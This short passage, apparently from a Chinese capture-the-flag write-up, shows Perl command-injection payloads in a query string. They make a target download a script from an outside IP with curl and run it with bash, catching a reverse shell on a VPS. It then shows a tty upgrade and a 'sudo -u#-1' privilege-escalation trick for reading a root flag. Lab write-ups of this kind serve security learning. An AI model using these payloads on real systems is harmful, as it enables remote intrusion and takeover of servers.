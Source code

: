 perl命令执行

```
?options=-r+$x%3d"curl 47.112.16.34 -o /tmp/aaa",system$x%23+2>./tmp/mote.thtml+<
&tpl=mote

?options=-r+$x%3d"bash /tmp/aaa",system$x%23+2>./tmp/mote.thtml+<
&tpl=mote		同时VPS监听
```

反弹到的shell里面执行`script /dev/null`，构建一个tty（以便ssh连接）

在服务器的`/root/web1`下方`flag.txt`文件

![](https://figure-bed-1258919161.cos.ap-chengdu.myqcloud.com/md-img/20200208160133.png)

sudo提权：`sudo -u#-1 cat /root/flag`